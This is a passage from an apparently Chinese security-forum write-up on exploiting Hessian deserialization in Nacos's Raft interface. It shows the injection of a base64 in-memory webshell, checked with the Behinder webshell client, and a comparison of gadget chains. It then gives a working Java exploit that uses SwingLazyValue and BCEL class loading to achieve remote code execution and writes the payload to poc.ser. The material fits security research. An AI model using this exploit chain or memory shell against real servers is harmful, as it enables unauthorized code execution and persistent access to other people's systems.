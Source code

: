 ![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-587375e166489026bff70cfc641de4fb37b1f8dc.png)  
这样我们就得到了内存马的base64字节码了。我们怎么进行测试呢，github有maven项目源码，我们在help路由处对这个字节码进行加载。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-c44b71f3aa4030a15b9bf7f8a3323cede8eb4c73.png)  
咱们访问一下help路由  
![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-ea69af236c99afd9150dbd5c8b3ab545197e10da.png)  
访问两次出现这个就是注入成功了，因为打2次第二次会显示已存在，我们冰蝎连接试一下。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-718bfd396d7579bd5bfda33e7d220cfd903296c6.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-35eefe72e5a06d45a99a88718abdf9932ca6e283.png)  
显然我们是注入成功了。

四、再转
====

那么我们的问题就来到了Gadgets上面，假如对nacos的raft反序列化熟悉的小伙伴应该不会缺链子，这里一开始是有很多种思路的

- JackSon反序列化
- BCEL字节码加载
- XSLT文件加载

1、Jackson
---------

首先说到jackson，在AliyunCTF上爆出来的gadgets让绝大多数springframework都受到影响，因为他们都有Jackson依赖，可以打getter。但是在这个环境下版本过高，jackson无法利用

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-930bbb4e0478e236d5f98ed77a0939fde9bcfea2.png)  
版本达到了2.8，在这个版本，BaseJsonNode可以触发getter的toString方法被移除了

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-bd7e5fd262713469174a26cd3810c11d921dcf57.png)  
因此无法继续利用

2、BCEL
------

在TCTF2022中出现了一个叫做Hessian-Onlyjdk的题，这个题的影响程度很高，不仅仅是在CTF更是在Realworld，他提供了一种JDK8原生的hessian gadgets，利用SwingLazyValue可以触发任意类的静态方法。  
EXP

```java
public class HessianSwingLVBCEL {
    public static void main(String[] args) throws Exception {
        //Pkcs9可以换成MimeTypeParameterList
        PKCS9Attributes pkcs9Attributes = SerializeUtils.createWithoutConstructor(PKCS9Attributes.class);
        UIDefaults uiDefaults = new UIDefaults();
        String bcelStr = SerializeUtils.makeBcelStr(BcelRCE.class);
        uiDefaults.put(PKCS9Attribute.EMAIL_ADDRESS_OID, new SwingLazyValue("com.sun.org.apache.bcel.internal.util.JavaWrapper", "_main", new Object[]{new String[]{bcelStr,"s"}}));
        SerializeUtils.setFieldValue(pkcs9Attributes,"attributes",uiDefaults);
        SerializeUtils.HessianDeserial(SerializeUtils.HessianTostringSerial(pkcs9Attributes));
        FileOutputStream fileOut = new FileOutputStream("poc.ser");
        Hessian2Output out = new Hessian2Output(fileOut);
        fileOut.write(67);
        out.getSerializerFactory().setAllowNonSerializable(true);
        out.writeObject(pkcs9Attributes);
        out.close();
        fileOut.close();
    }
}

```
